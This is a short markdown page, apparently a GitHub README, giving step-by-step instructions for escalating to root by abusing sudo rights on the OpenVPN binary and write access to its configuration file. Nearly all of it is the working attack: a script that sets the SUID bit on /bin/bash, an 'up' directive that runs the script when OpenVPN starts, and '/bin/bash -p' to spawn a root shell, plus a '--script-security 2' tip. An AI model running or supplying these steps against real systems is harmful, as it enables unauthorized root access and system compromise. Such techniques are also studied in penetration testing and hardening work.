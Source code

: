 # REQUIREMENTS:

### 1) Sudo privileges on OpenVPN binary

### 2) Write Privileges on OpenVPN configuration file

## STEPS:

#### 1) Create a script wherever you have write privileges: 

#### 2) Script contents: 

    #!/bin/bash chmod +s /bin/bash

#### 3) In the configuration file, add a one-liner to execute script upon initialization: 

#### 4) 

    up /home/USER/script.sh

#### 5) Run OpenVPN with sudo

#### 6) 

    /bin/bash -p (Spawn root shell)

## TIP: If the script fails to execute, add another one liner above the one you added in the configuration file:

#### 7) 

    --script-security 2
